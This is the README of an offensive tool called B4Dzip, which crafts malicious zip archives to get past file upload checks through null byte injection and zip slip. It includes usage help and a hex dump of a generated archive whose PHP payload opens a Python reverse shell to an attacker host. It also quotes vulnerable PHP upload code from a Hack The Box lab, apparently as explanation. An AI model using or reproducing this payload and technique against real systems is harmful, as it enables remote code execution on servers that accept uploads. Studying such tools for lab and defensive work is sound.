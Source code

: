 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection.

The vulnerability occurs because the validation of the compressed file extension is performed using the Central 
Directory Header filename and not validating the real filename extension of the decompressed file.

A vulnerable PHP example is explained at the end of this doc.


More information about ZIP file format can be found [here](https://en.wikipedia.org/wiki/ZIP_(file_format)).

<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      236  2023-08-30 22:43   cc7f82eef39c4d12.php
---------                     -------
      236                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 27 58  |PK........i..W'X|
00000010  57 17 ec 00 00 00 ec 00  00 00 14 00 00 00 63 63  |W.............cc|
00000020  37 66 38 32 65 65 66 33  39 63 34 64 31 32 2e 70  |7f82eef39c4d12.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 22  |hp<?php system("|
00000040  65 78 70 6f 72 74 20 52  48 4f 53 54 3d 27 3c 72  |export RHOST='<r|
00000050  68 6f 73 74 3e 27 3b 65  78 70 6f 72 74 20 52 50  |host>';export RP|
00000060  4f 52 54 3d 3c 72 70 6f  72 74 3e 3b 70 79 74 68  |ORT=<rport>;pyth|
00000070  6f 6e 33 20 2d 63 20 5c  22 69 6d 70 6f 72 74 20  |on3 -c \"import |
00000080  73 6f 63 6b 65 74 2c 6f  73 2c 70 74 79 3b 73 3d  |socket,os,pty;s=|
00000090  73 6f 63 6b 65 74 2e 73  6f 63 6b 65 74 28 29 3b  |socket.socket();|
000000a0  73 2e 63 6f 6e 6e 65 63  74 28 28 6f 73 2e 67 65  |s.connect((os.ge|
000000b0  74 65 6e 76 28 27 52 48  4f 53 54 27 29 2c 69 6e  |tenv('RHOST'),in|
000000c0  74 28 6f 73 2e 67 65 74  65 6e 76 28 27 52 50 4f  |t(os.getenv('RPO|
000000d0  52 54 27 29 29 29 29 3b  5b 6f 73 2e 64 75 70 32  |RT'))));[os.dup2|
000000e0  28 73 2e 66 69 6c 65 6e  6f 28 29 2c 66 64 29 20  |(s.fileno(),fd) |
000000f0  66 6f 72 20 66 64 20 69  6e 20 28 30 2c 31 2c 32  |for fd in (0,1,2|
00000100  29 5d 3b 70 74 79 2e 73  70 61 77 6e 28 27 2f 62  |)];pty.spawn('/b|
00000110  69 6e 2f 73 68 27 29 5c  22 22 29 3b 3f 3e 50 4b  |in/sh')\"");?>PK|
00000120  01 02 1e 03 0a 00 00 00  00 00 69 b5 1e 57 27 58  |..........i..W'X|
00000130  57 17 ec 00 00 00 ec 00  00 00 19 00 00 00 00 00  |W...............|
00000140  00 00 00 00 00 00 a4 81  00 00 00 00 63 63 37 66  |............cc7f|
00000150  38 32 65 65 66 33 39 63  34 64 31 32 2e 70 68 70  |82eef39c4d12.php|
00000160  00 2e 70 64 66 50 4b 05  06 00 00 00 00 01 00 01  |..pdfPK.........|
00000170  00 47 00 00 00 1e 01 00  00 00 00                 |.G.........|
0000017b
```

## Vulnerable code example

The following code has been extracted from `HTB - Zipping` and is a good example about how the vulnerability works. Also, it is the main reason why I did this script.

```php
<?php
    ...
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
        echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
        /* 
            HERE: Checking the Wiki we find that:

            "If the end of central directory record indicates a non-empty
            archive (`cdh_size` and `lfh_size` in `badzip.py`), the name
            of each file or directory within the archive should be specified
            in a central directory entry (`cdh_fname` in `badzip.py`), along
            with other metadata about the entry, and an offset into the ZIP file
            pointing to the actual entry data.

            ...

            "This allows a file listing of the archive to be performed relatively
            quickly, as the entire archive does not have to be read to see
            the list of files."

            TL;DR: $zip->getNameIndex(0) is reading the file name from Central Directory Header :)

            See: https://www.php.net/manual/es/ziparchive.getnameindex.php#refsect1-ziparchive.getnameindex-description
        */
        $fileName = $zip->getNameIndex(0);

        /* 
            HERE: PATHINFO_EXTENSION returns only the last extension,
            so 'example.php\x00.pdf" will be read as .pdf == "pdf"

            See: https://www.php.net/manual/es/function.pathinfo.php#refsect1-function.pathinfo-returnvalues
        */
        if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
          mkdir($uploadDir);
          echo exec('7z e ' . $zipFile . ' -o' . $uploadDir . '>/dev/null');
          echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="' . $uploadDir . $fileName . '">' . $uploadDir . $fileName . '</a>' . '</p>';
        } else {
          echo "<p>The unzipped file must have  a .pdf extension.</p>";
        }
      }
    } else {
      echo "Error uploading file.";
    }
    ...
?>
```

## Meta

Diego Muñoz – [LinkedIn](linkedin.com/in/diegomuñozm)

Distributed under the MIT License. Go to ``LICENSE`` for more information.

[See license](https://github.com/0xCronos/B4Dzip/blob/master/LICENSE)


